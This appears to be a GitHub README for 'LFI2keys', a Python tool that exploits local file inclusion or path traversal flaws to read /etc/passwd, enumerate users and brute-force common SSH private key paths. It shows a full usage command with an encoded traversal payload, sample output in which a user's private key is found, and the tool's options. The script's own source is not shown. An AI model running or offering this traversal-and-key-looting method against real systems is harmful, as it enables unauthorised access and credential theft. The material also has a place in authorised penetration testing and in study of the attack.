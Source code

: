 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-medium.txt -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /| ' <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Valid users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys and known_hosts)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u URL, --url URL     LFI URL pointing to /etc/passwd
  -l LIST, --list LIST  Wordlist containing SSH private key names
  -o OUTPUT, --output OUTPUT
                        File to save found private key URLs and contents
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory (not just .ssh folder)
  -c, --continue-as-success
                        Continue scanning all users for private keys even after a match is found
```

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
